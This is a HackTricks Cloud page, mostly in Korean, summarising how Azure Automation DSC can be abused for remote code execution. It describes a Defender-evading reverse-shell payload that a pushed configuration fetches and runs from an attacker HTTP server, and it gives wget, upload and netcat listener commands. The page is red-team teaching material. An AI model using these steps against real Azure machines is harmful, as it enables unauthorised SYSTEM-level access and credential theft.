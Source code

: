 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

이 과정은 Windows Defender를 우회하도록 설계된 수정된 Nishang `Invoke-PowerShellTcp.ps1` 페이로드인 `RevPS.ps1`를 호스팅하기 위한 원격 서버 인프라를 설정하는 것을 포함합니다. 이 페이로드는 IP `40.84.7.74`를 가진 Kali Linux 머신에서 간단한 Python HTTP 서버를 사용하여 제공됩니다. 이 작업은 여러 단계를 통해 실행됩니다:

#### Step 1 — Create Files

* **필요한 파일:** 두 개의 PowerShell 스크립트가 필요합니다:
1. `reverse_shell_config.ps1`: 페이로드를 가져와 실행하는 Desired State Configuration (DSC) 파일입니다. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)에서 얻을 수 있습니다.
2. `push_reverse_shell_config.ps1`: VM에 구성을 게시하는 스크립트로, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)에서 사용할 수 있습니다.
* **사용자 정의:** 이 파일의 변수와 매개변수는 리소스 이름, 파일 경로 및 서버/페이로드 식별자를 포함하여 사용자의 특정 환경에 맞게 조정해야 합니다.

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1`는 Azure Storage Account로 전송할 준비가 된 `.zip` 파일로 압축됩니다.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Storage Context 설정 및 업로드

* 압축된 구성 파일은 Azure의 Set-AzStorageBlobContent cmdlet을 사용하여 미리 정의된 Azure Storage 컨테이너인 azure-pentest에 업로드됩니다.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Kali 박스 준비

* Kali 서버는 GitHub 리포지토리에서 RevPS.ps1 페이로드를 다운로드합니다.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* 스크립트가 수정되어 대상 Windows VM과 리버스 셸을 위한 포트를 지정합니다.

#### Step 5 — Publish Configuration File

* 구성 파일이 실행되어 리버스 셸 스크립트가 Windows VM의 지정된 위치에 배포됩니다.

#### Step 6 — Host Payload and Setup Listener

* 페이로드를 호스팅하기 위해 Python SimpleHTTPServer가 시작되고, 수신 연결을 캡처하기 위해 Netcat 리스너가 설정됩니다.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* 예약된 작업이 페이로드를 실행하여 SYSTEM 수준의 권한을 달성합니다.

#### 결론

이 프로세스의 성공적인 실행은 자격 증명 덤프 또는 여러 VM으로 공격을 확장하는 등 추가 작업을 위한 수많은 가능성을 열어줍니다. 이 가이드는 Azure Automation DSC 영역에서 지속적인 학습과 창의성을 장려합니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
